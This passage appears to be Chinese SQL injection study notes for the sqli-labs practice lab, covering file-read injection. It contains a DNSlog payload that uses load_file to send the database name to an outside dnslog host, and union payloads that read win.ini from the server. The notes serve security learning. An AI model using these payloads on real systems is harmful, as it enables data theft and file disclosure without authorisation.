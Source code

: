 129  0x81   %81

### 文件读写注入（含dnslog注入）

>   secure_file_priv=		一定要为空

①dnslog注入

```sql
# 盲注优选
http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and load_file(concat('\\\\',(select database()),'.ajeptxigtq.zaza.eu.org\\sql')) --+
```

![2c2a7c507704fff45df3c35641a82d8f](./assets/2c2a7c507704fff45df3c35641a82d8f.png)

②文件读写

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1,load_file('c:\\windows\\win.ini'),3
http://xxxxxx:32940/Less-2/?id=-1 union select 1,load_file('c:\\windows\\win.ini'),3
```

![image-20241128204806567](./assets/image-20241128204806567.png)
